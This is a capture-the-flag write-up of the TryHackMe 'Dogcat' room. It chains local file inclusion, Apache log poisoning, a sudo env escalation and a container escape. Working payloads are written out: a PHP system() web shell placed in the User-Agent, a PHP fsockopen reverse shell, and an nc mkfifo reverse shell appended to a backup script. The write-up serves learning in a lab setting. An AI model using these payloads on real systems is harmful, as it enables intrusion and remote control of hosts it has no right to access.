









# Dogcat - THM Room

##### Gnome787 | 24 SEP 22

##### Creds

### Enum

**NMAP**
Initial Scan:
```bash
┌──(root💀kali)-[~/THM/CTF/dogcat]
└─# nmap -sC -sV 10.10.255.244 -oN nmap/initial              
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-23 23:41 EDT
```

Open Ports:
* 22 SSH
* 80 HTTP

Deep Scan:
```bash
┌──(root💀kali)-[~/THM/CTF/dogcat]
└─# nmap -A -v -p- --min-rate=1000 10.10.255.244 -oN nmap/deep
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-23 23:43 EDT
```

**Gobuster**
Initila Scan:
```bash
┌──(root💀kali)-[~/THM/CTF/dogcat]
└─# gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.255.244       
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
```

Interesting directories:
* /cats

From the second gobuster scan, I was able to find a **flag.php** file, as well as confirmed there is a cat.php and dog.php file.

**80 HTTP**
Taking a look at the webpage, it seems to have 2 options, either display an image of a cat or an image of a dog. From here I decided I would run another gobuster scan and add on ```-x php``` just to see if there are any extra php files that weren't returned in the initial scan.

I initally attempted to access the ```flag.php``` site, however, was unsuccessful and nothing appeared. Following this I did some reading and learned about **php filters**. Whilst currently the page returns nothing when we encode the file in base64 and then decode that file, we are able to read the content of the page. Using the following ```php://filer``` will get the job done: ```http://10.10.255.244/?view=php://filter/read=convert.base64-encode/resource=./dog/../flag```. We could of replaced the ```dog``` with cat and got the exact same result. From here we can decode the base64 and get the flag: 



We know that there are 3 other files in this same directory. Those being 
* cat.php
* dog.php
* index.php

I had a quick look at the dog and cat php files using the same php://filter but they were both just a small one-liner that returned a random jpg image.

Next is the **index.php** file which gives us an idea of what is going on under the hood. Looking at the php script we see that a variable is created named **ext** which is automatically added to the end of whatever comes after ```?view=```. This would explain why I was unable to return the contents of files such as ```/etc/passwd``` as I didn't add ```&ext``` which will make reference to the variable but won't return the variable value of **.php**. From here we can begin to use our LFI to achieve RCE.

**RCE**
We have **LFI** with ```./dog/../&ext=```, at the moment we could use that to read the /etc/passwd file like so: 



That is great, but what we really want is to turn our LFI into an RCE so that we can learn some more about this box and then hopefully get a reverse shell. I found a great article that is about **Apache log poisoning**. This will essentially allow us to use the ```/var/log/apache2/access.log``` file to execute commands on the remote host. The article can be found here [Apache Log Poisoning](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/).

For this to work we need to use our LFI vulnerability and navigate to the access.log path:
```/?view=./dog/../../../../../../../var/log/apache2/access.log&ext```

For this I'm going to head into burp. We wanna catch our webrequest to that path and then send it to the **Repeater**. 



What we can do now is replace our **User-Agent** in burp with:
```php
<?php system($_GET['c']);?>
```
and then add ```&c=``` to our LFI path followed by whatever command we wish to execute on the remote host.



As you can see I ran the command ```ls``` which returned the files in the directory. 

Thats great but now we want to get a reverse shell.

**Getting a Reverse Shell**
Now that we have RCE on the system, we need to create our payload. I am going to use a php one-liner from pentestmonkey.net ```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```, modify it so it has my openvpn IP and the port I have my netcat listener set to, and then URL encode it otherwise the payload won't be executed. This can be done in burp by selecting the payload and converting all characters to url encoded. 



Now we simply send the request, and if we did everything correctly, netcat should catch the shell. Which it does: 



**Rev Shell**
I tried to upgrade the shell but python doesn't seem to be installed which is a pain. I had a look around the system and found the second flag in the /var/www directory: 



I wanted to find some more information about the machine, to do this I ran:
```bash
cat /proc/1/cgroup
```
which confirmed that this machine is a docker container which we are going to have to break out of.

From here I figured I would attempt a priv esc as it would be much easier to break out of the environment if we had root. I ran ```sudo -l``` and found this user can run /usr/bin/env as sudo. Having a look on GTFOBins it has a way to promote our shell to a root shell using this configuration error. So to gain a root shell I did:
```bash
sudo /usr/bin/env /bin/sh
```

This gave us the third flag. 



**Escaping the Container**

Having a look around the system, I came across an interesting folder in /opt which contained ```backup.sh``` and ```backup.tar```. I had a look at the shell script which contained:
```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
This looks like a simple script that backs the content in the docker container up to the main host. If thats the case, we can simply append a reverse shell payload to the end of that file and then when it runs next, our shell will be executed. We can use the payload:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOURIPHERE> 8888 >/tmp/f
```
and echo it to our backup.sh file:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 8888 >/tmp/f" >> backup.sh
```

Once it runs, we have our reverse shell and the final flag.



### Lessons Learned

**LFI**
* I had forgotten about PHP filters, if I had of checked my notes I would have seen that I pretty much had the payload I used to get the php files in base64 format. This highlights the need to build my methodology notebook and ensure it is categorised so that I can refer to it properly when in situations like this.
* Apache log poisoning is something I hadn't come across before. Definately need to write some notes about that.
* Study LFI some more, was a bit all over the place as my knowledge on LFI isn't the greatest.
* Definately look at how a php script is doing something. In this case it was adding the variable **ext** which had a value of **.php** and was why my initial attempts to return the /etc/passwd file were failing as the request was being proccessed as **resource=/etc/passwd.php**. This is also something I would of noticed had I read the error more clearly as the error says ```Warning: include(./dog/../../../../../../../etc/passwd.php): failed to open...```. In the future simply adding a reference to the variable **(&VARIABLENAME)** will ensure that the value itself is not returned.

**Rev Shell**
* This wasn't too bad although it definately wasted some time initially trying to escape the docker container looking for the docker socket file and not trying to priv esc. Always worth running ```sudo -l``` to see if there are any options.

**Docker Container Escape**
* I have only come across a docker escape one other time in a CTF and it involved mounting the drives of the host machine to get access to the filesystem. This was much easier, however it's important to remember if there is a script that creates backups on a remote system, simply adding a shell payload is definately worth a try.